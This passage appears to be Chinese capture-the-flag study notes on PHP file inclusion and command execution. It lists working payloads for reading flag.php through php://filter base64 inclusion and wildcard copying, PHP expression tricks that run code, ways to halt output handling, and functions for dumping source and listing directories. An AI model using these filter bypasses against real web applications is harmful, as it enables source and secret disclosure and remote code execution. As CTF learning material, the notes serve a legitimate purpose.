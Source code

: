     `c=include%0a$_GET[1]?>&1=php://filter/read=convert.base64-encode/resource=flag.php`

* 通配符

    如果要对含有关键字的文件进行访问，可以使用`cp`命令结合通配符将文件拷贝到新的文件中，访问新建文件读取源文件内容

    ```php
    cp fla?.php 1.txt

    url/1.txt

    ```

* 移花接木

    既然可以命令执行，那就把对应文件中的内容`cp`到新的文档中，然后对文档内容输出，间接读取


# 命令执行

## 概述

命令执行用到的方法在其他板块中也有，主要就是绕过过滤，包含的内容可能是空格绕过，php特性，shell特性，无参RCE，或者无字母RCE

## 常见方法

### PHP特性命令

`return 1-phpinfo()-1`这样可以执行命令，中间的字符'-'可以替换成其他字符

`return 1?phpinfo():1`三目运算符，可以执行命令

### 中断进程
`ob_get_contents();``ob_end_clean();`获取缓冲区内容，清除缓冲区内容，后面再跟一个替换内容的函数，我们传参可以直接在后面跟 `exit(0);`退出进程，停止执行后面点函数


### 直接函数使用
`echo highlight_file(xxx.php);` 

`show_source(),file_get_contents(),readfile()`

### 造参传参
```php
include($_GET[1])
1=php:\/\/filter/read=convert.base64-encode/resource=xxx.php
```

### 包含指定文件变量
```php
include('flag.php');echo $flag;`
```

### 变量输出
```php
include('flag.php');var_dump(get_defined_vars());
//先包含文件，在不知道对应变量名的情况下输出所有变量
如果是txt文本，包含之后默认自动输出，没有php标签
```
### 目录查看
```php
var_dump(scandir("/"));
print_r(scandir("."));
var_export();
如果scandir目录被封就用*glob://*协议

```
